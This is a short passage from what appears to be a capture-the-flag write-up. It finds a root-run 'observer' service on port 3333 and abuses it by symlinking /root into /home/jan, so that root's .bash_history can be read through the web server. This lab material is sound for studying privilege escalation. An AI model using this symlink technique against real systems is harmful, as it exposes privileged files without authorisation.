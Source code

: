 We find a binary called observer running in `/opt/`, which is likely the same service running on port `3333`.

```bash
ls -la /opt/observer
```

Info:
```
-rwxr-xr-x 1 root root 7376728 ago 21  2023 /opt/observer
```

We confirm it is running with `root` privileges.

We create a `symbolic link` to the `/root/` directory inside `/home/jan/` so we can access it via the web server.

```bash
ln -s /root .
```

The symlink is created. We browse the `root` directory and view the `.bash_history`.

![alt text](../../images/bash_h.png)
